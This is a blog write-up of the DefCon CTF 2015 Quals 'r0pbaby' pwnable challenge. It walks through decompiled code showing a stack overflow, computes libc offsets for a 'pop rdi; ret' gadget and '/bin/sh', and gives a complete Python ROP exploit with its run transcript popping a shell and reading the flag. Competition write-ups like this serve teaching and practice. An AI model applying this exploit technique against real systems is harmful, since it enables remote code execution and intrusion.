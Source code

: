 ```yaml
---
layout: post
title: "DefConCTF 2015 Quals - ROPBaby Writeup"
date: 2015-05-18 21:16:42 +0430
comments: true
categories: pwn defconctf rop
---
```


**DefConCTF 2015 ROPBaby Writeup**  
**Point = 1**  
**Category = Pwnable**  

As the challenge name proved we should use ROP technique to read flag from the server ( or pop a shell ).

> r0pbaby_542ee6516410709a1421141501f03760

```
./r0pbaby_542ee6516410709a1421141501f03760 

<!--more-->

Welcome to an easy Return Oriented Programming challenge...
Menu:
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: 1
libc.so.6: 0x00007FF0352429B0
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: 2
Enter symbol: system
Symbol system: 0x00007FF034A9DC40
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: 

```

So we have address of any symbols of the `libc.so.6`.

Let's check the binary in IDA, the main function is `sub_C46`.

```
__int64 sub_C46()
{
  __int64 v0; // rax@2
  signed int v1; // eax@4
  __int64 v2; // rax@12
  unsigned __int64 v3; // r14@15
  int v4; // er13@17
  size_t v5; // r12@17
  int v6; // eax@18
  void *handle; // [sp+8h] [bp-448h]@1
  char nptr[1088]; // [sp+10h] [bp-440h]@2
  __int64 savedregs; // [sp+450h] [bp+0h]@22

  setvbuf(stdout, 0LL, 2, 0LL);
  signal(14, handler);
  puts("\nWelcome to an easy Return Oriented Programming challenge...");
  puts("Menu:");
  handle = dlopen("libc.so.6", 1);
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        while ( 1 )
        {
          sub_BF7();
          LODWORD(v0) = sub_B9A(nptr, 1024LL);
          if ( !v0 )
          {
            puts("Bad choice.");
            return 0LL;
          }
          v1 = strtol(nptr, 0LL, 10);
          if ( v1 != 2 )
            break;
          __printf_chk(1LL, "Enter symbol: ");
          LODWORD(v2) = sub_B9A(nptr, 64LL);
          if ( v2 )
          {
            dlsym(handle, nptr);
            __printf_chk(1LL, "Symbol %s: 0x%016llX\n");
          }
          else
          {
            puts("Bad symbol.");
          }
        }
        if ( v1 > 2 )
          break;
        if ( v1 != 1 )
          goto LABEL_24;
        __printf_chk(1LL, "libc.so.6: 0x%016llX\n");
      }
      if ( v1 != 3 )
        break;
      __printf_chk(1LL, "Enter bytes to send (max 1024): ");
      sub_B9A(nptr, 1024LL);
      v3 = (signed int)strtol(nptr, 0LL, 10);
      if ( v3 - 1 > 0x3FF )
      {
        puts("Invalid amount.");
      }
      else
      {
        if ( v3 )
        {
          v4 = 0;
          v5 = 0LL;
          while ( 1 )
          {
            v6 = _IO_getc(stdin);
            if ( v6 == -1 )
              break;
            nptr[v5] = v6;
            ++v4;
            v5 = v4;
            if ( v3 <= v4 )
              goto LABEL_22;
          }
          v5 = v4 + 1;
        }
        else
        {
          v5 = 0LL;
        }
LABEL_22:
        memcpy(&savedregs, nptr, v5);
      }
    }
    if ( v1 == 4 )
      break;
LABEL_24:
    puts("Bad choice.");
  }
  dlclose(handle);
  puts("Exiting.");
  return 0LL;
}
```

After resolving symbols we can use third menu to overflow and execute our chain.

```
$ file ./r0pbaby_542ee6516410709a1421141501f03760
./r0pbaby_542ee6516410709a1421141501f03760: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, stripped
$ checksec.sh --file ./r0pbaby_542ee6516410709a1421141501f03760
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   ./r0pbaby_542ee6516410709a1421141501f03760

```

but there may be a problem since we don't have the `libc.so.6`. but we have, don't we? :)
i used the libc's version of the `babycmd` challenge.

```
./lib/x86_64-linux-gnu/libc.so.6 
GNU C Library (Ubuntu EGLIBC 2.19-0ubuntu6.6) stable release version 2.19, by Roland McGrath et al.
Copyright (C) 2014 Free Software Foundation, Inc.
```

so you can find it here: [http://packages.ubuntu.com/trusty/libc6]

** note: just use LD_LIBRARY_PATH to use this version to implement the attack completely.

Then i found the offset of `/bin/sh` and `pop rdi; ret` from the `system` symbols of the our given `libc.so.6` as you can see below:  
  * /bin/sh offset from system: +0x13669b  
  * pop rdi; ret offset from system: -0x23b26  

you can see my implementation here: 

```
#!/usr/bin/python

import socket
import struct
import telnetlib

def readuntil(f, delim=': '):
    data = ''
    while not data.endswith(delim):
        c = f.read(1)
        assert len(c) > 0
        data += c
    #print data
    return data

def p(v):
    return struct.pack('<Q', v)

def u(v):
    return struct.unpack('<Q', v)[0]


#s = socket.create_connection(("127.0.0.1", 1337))
s = socket.create_connection(("r0pbaby_542ee6516410709a1421141501f03760.quals.shallweplayaga.me", 10436))
f = s.makefile('rw', bufsize=0)

raw_input("$") # attach debugger

print s.recv(1024)
f.write("1\n")
readuntil(f, "0x")
a = f.read(16)
print a
libc = int(a, 16)

f.write("2\nsystem\n")
readuntil(f, "0x")
system = int(f.read(16), 16)
print hex(system)

f.write("3\n32\n"+"A"*8+p(system-0x23b26)+p(system+0x13669b)+p(system)+"\n")

print "[+] shell is ready: "
t = telnetlib.Telnet()
t.sock = s
t.interact()

```

and launching the attack:

```
$ python r0pbaby-expl.py 
$

Welcome to an easy Return Oriented Programming challenge...
Menu:
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: 
00007F9F01F43AB0
0x7f9f0179f640
[+] shell is ready: 

1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: Enter bytes to send (max 1024): 1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: Bad choice.
ls
bin
boot
[..]
cat /home/r0pbaby/flag
The flag is: W3lcome TO THE BIG L3agu3s kiddo, wasn't your first?
```

And another 1 point. Thanks #defconctf

@HAMIDx9

